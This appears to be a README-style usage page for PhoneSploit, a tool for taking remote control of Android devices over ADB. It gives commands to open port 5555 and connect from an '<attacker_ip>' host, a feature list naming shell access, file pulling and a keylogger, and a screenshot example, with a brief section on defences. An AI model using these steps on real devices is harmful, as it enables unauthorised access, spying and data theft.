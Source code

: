 
## ▶️ Usage

### Start ADB Server

```
adb start-server
```

### Connect to Device

On the target device (with USB debugging enabled), run:

```
adb tcpip 5555
```

```
adb connect <attacker_ip>:5555
```

From PhoneSploit:

```
python3 phonesploitpro.py
```

## 🧪 Features

| Feature                  | Description                |
| ------------------------ | -------------------------- |
| Connect over IP          | Remote ADB access via WiFi |
| Get device info          | Model, brand, serial       |
| Install APK              | Push and install APKs      |
| Pull files               | Download files from device |
| Screenshot               | Capture device screen      |
| Shell access             | Remote ADB shell           |
| Keylogger (Pro versions) | Capture keystrokes         |

## 🧠 Example: Take Screenshot

```
adb shell screencap -p /sdcard/screen.png
```

```
adb pull /sdcard/screen.png
```

## 🛡️ Security Recommendations

If you're defending against PhoneSploit:

- Disable **USB debugging** on non-development devices.    
- Avoid connecting Android devices to unknown WiFi.
- Use mobile MDM or antivirus to monitor ADB access.

































